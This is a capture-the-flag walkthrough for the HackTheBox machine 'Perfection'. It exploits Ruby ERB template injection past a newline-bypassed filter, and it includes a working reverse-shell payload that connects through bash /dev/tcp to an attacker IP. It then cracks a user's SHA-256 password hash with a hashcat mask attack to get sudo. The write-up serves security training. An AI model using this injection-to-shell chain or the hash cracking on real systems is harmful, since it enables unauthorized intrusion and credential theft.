

# Perfection

Perfection is a easy machine on HTB.

## Enumeration

First we check the open port via **nmap**.


The ports 22, 80 are open.
Let's check the port 80 first.


This is what you should see after browsing to the ip address. It seems like a basic website. Let's perform some **directory research**.


Nothing of interest, but there is this `/weighted-grade` page on the website. Let's check it out.


And if we put valid input in the form this is the output.


And at the footer of the page we can see that it's powered by `WEBrick 1.7.0` which is a **Ruby** framework.
Now let's intercept the request with **Burpsuite** to see what's going on.

## Foothold


It's indeed powered by a webrick framework. And the calculations for the weight-grade seems to be done on the **server side**. So we can verify if it's vulnerable to [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection). And since it's a ruby server the template will be as follow : `<%= %>`
Let's do a test in burptsuite (don't forget ton URL encode the template).


And if we forward the request we obtain this result:


The server detected and blocked our tentative. Maybe it block some special characters? If it's done with some regex, it's may be escapable with the `\n` character. Let's test it with this payload (don't forget to url encode it): `test\n<%= %>`



## User Flag

Yep it work! So now we just need to add something to have a reverse shell. Don't forget to setup your netcat listener! Here the complete payload: `test\n<%= IO.popen("bash -c 'bash -i >& /dev/tcp/10.10.14.14/1234 0>&1'").readlines() %>`

Change the ip and the port for yours.


And we have a revshell! Let's stabilize it first.

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# CTRL + Z
stty raw -echo; fg
```

And we have the **user flag**!


## Root flag

We can see that susan is in the sudoers file with the `id` command. But we doesn't know the **password** of susan. So it will be our focus here. In the mail for susan we found one that talk about how make a password for your user.


So we know now that her password begin with `susan_nasus_`. But we don't have the random numbers... Let's go back to her home directory. And in the `Migration` directory we found a **sqlite3 database** file so let's open it.


And we found some hash! The hash for the password of susan is here to! So now we can use `hashcat` to guess the password. Copy paste the hash in a file and use this command: `hashcat -a 6 -m 1400 hash susan_nasus_?d?d?d?d?d?d?d?d?d`
- `-a 6` specify to hashcat that we want a mask attack.
- `-m 1400` specify that the hash is a SHA2-256
- `hash` the file with the hash of the password inside
- `susan_nasus_?d?d?d?d?d?d?d?d?d` the guess hashcat have to make, susan_nasus_ plus nine unkown numbers.

After a while we have the result : `susan_nasus_413759210`

Now just type `sudo -i` and paste the password

